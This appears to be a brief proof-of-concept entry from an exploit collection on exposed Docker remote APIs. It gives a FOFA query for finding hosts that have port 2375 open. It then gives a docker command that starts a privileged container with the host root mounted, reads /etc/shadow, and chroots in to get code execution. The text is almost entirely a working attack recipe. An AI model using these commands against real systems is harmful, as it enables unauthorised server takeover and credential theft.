 FOFA
----

    port="2375" && protocol=="docker"

POC
---

    docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

    File Access: cat /mnt/etc/shadow
    RCE: chroot /mnt